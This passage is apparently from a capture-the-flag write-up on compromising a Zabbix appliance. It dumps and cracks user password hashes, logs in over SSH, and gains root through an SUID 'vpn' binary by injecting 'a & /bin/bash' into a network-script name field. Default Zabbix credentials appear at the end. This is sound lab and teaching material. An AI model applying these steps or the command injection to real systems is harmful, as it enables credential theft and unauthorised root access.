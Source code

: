 Dumping the username and password from the "users" table in the ZABBIX database: 

```
select username,passwd from users;
+----------+--------------------------------------------------------------+
| username | passwd                                                       |
+----------+--------------------------------------------------------------+
| Admin    | $2y$10$uOQjVPor7FJ6KisO7kvO6OIaaXG2kMJzh2RwcoA387uvd1JLBfx6. |
| guest    | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |
| andrew   | REDACTED                                                     |

The user "andrew" is present in the passwd document in the zabbix server and have an HOME directory. Let's broke the hash to try the password on the host !

```
echo 'REDACTED_HASH' > 4john && john 4john --wordlist=/usr/share/wordlists/seclists/Password/xato-net-10-million-passwords.txt
```

Now we have an SSH access with this new user "andrew".

# An SUID is present on a ELF executable in the andrew HOME directory nammed "vpn".

Enumerate this executable using strings :
```
echo 'type the network NAME :' && read NAME && echo $NAME > name.txt && echo 'type de Device name :' && read DEVICE && echo $DEVICE > device.txt
echo NAME=$(cat name.txt) > /etc/sysconfig/network-scripts/ifcfg-1337
echo DEVICE=$(cat device.txt) >> /etc/sysconfig/network-scripts/ifcfg-1337
/etc/sysconfig/network-scripts/ifcfg-1337
;*3$"

```

# For PrivEsc, we can abuse the "network-scripts" using an know vulnerability found here : https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

# exploiting network-script :

```
[andrew@appliance ~]$ ./vpn
type the network NAME :
a & /bin/bash
type de Device name :
az
********************************************************************************

Zabbix frontend credentials:

Username: Admin

Password: zabbix


To learn about available professional services, including technical suppport and training, please visit https://www.zabbix.com/services
